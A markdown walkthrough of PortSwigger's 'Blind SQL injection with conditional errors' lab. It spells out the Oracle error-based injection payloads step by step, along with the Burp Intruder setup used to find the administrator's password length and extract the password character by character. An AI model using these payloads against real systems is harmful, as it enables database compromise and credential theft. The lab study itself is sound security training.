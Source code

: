 # Write-up: Blind SQL injection with conditional errors @ PortSwigger Academy

![logo](img/logo.png)

This write-up for the lab *Blind SQL injection with conditional errors* is part of my walkthrough series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  

## Lab description

![lab_description](img/lab_description.png)

## Query

The query used in the lab will look something like

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

In the example case, the cookie contains this content
`Cookie: TrackingId=Hhpmds8u7A7Wf4TH; session=CjLImZazM0kQSZvcI7rV4kieQhRygEzJ`

I will omit the complete cookie content from now on and only provide the string appended to the TrackingId value.

## Steps

### Confirm vulnerable parameter

Due to the type of vulnerability, we can neither see any result of the query nor any difference in output based on the truth value of some condition. However, if we can craft requests that cause (or don't cause) a database error based on a condition we inject, we can infer the truth value based on the fact whether an error is shown or not.

So as a first step we need to confirm that the parameter is vulnerable by crafting requests that give `normal` and `error` answers.

Injecting a single quote raises a server error, injecting two single quotes does not. This indicates an injection possibility, so try injecting some SQL statements. Injecting `'||(SELECT+null)||'` still shows an error, however injecting `'||(SELECT+null+FROM+dual)||'` does not. Therefore the database driving the page is an Oracle DB.

### Find 'normal' and 'error' statements

On the [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), a conditional error example is given: `SELECT CASE WHEN (<CONDITION>) THEN to_char(1/0) ELSE NULL END FROM dual`

For the `normal` query, we take an input that evaluates to `FALSE`, thus not hitting our division by zero.

```sql
SELECT trackingId FROM someTable WHERE trackingId = X'||(SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE NULL END FROM dual)||'
```

The content of the cookie for the `normal` case that displays the page as normal is

`'||(SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE NULL END FROM dual)||'`

The `error` case has a condition that evaluates to true, thus causing the database to execute the division by zero which results in an `internal server error`:

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM dual)||'`

---> Now we have a way to distinguish the result of a boolean condition.

### Confirm database table and columns

The next step is to confirm that the `users` table actually exists in the database. For this, I select from it and use the oracle version of limiting the number of output rows:

`'||(SELECT username||password FROM users WHERE rownum=1)||'`

---> It shows the page, confirming that this is a valid query and thus, that the table name and both column names are valid as well.

Just to be on the safe side, confirmed that invalid names in either of the fields result in an invalid query and an `internal server error`.

### Confirm user exists in the database

To confirm that the user exists in the database it is unfortunately not possible to inject a simple `'||(select username from users where username='administrator')||'`. This is a valid statement regardless of the existence of the user. As such, it shows the page regardless of the username used.

To cause an error, we extend the example by performing the division by zero if the username exists. This statement results in an `internal server error`, indicating that the query resulted in the division by zero:

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator')||'`

Changing the username to an arbitrary value, the page is shown. This confirms that the condition `1=1` and the following division by zero depend on whether the `FROM users WHERE...` part returns something.

This confirms that the user `administrator` exists in the database.

### Get the length of the password (could be hash as well)

Getting the length is done easily by adding the `LENGTH` function at the end of the SQL condition.

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator' and LENGTH(password)=1)||'`

// 📝 EDIT LENGTH(PASSWORD)=1

This will show the page, indicating that the `1=1` check was never executed. Using Burp Intruder, I test all numbers from 1 to 50 as length, and get this result:

![Length of password](img/length_of_password.png)

--> Password is exactly 20 characters long

### Enumerate the password of the user administrator

Now that we have the length of the password, we can brute force each character individually. If the database would store a hash of the password, we could extract the hash for offline cracking.

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator' and SUBSTR(password,1,1)='a')||'`

This shows the page, indicating that the first letter is not an `a`. Using Burp Intruder again to brute force all 20 characters.

![Brute force password](img/brute_force_password_query.png)

Attack type: *Cluster bomb*

- *Payload 1*: numeric sequential, 1...20
- *Payload 2*: Brute force - for real-life, add special characters

Filtering on server errors again, we can read the password: `3bk8bdchxubqft2tgsxr`

// 📝 ALSO SORT ASCENDING BY PAYLOAD 1


![Brute force password, result](img/brute_force_of_password_result.png)

### Alternative

It is also possible to move the conditional check (e.g. the length of the substring part) into the condition of the `SELECT CASE WHEN` portion.

`'||(SELECT CASE WHEN (substr(password,1,1)='a') THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator')||'`

For the length, the string is shown in this picture:

![Condition in a different location](img/condition_different_location.png)

## Try login

With the credentials obtained I log in and the lab updates to

![Login successful](img/Win.png)
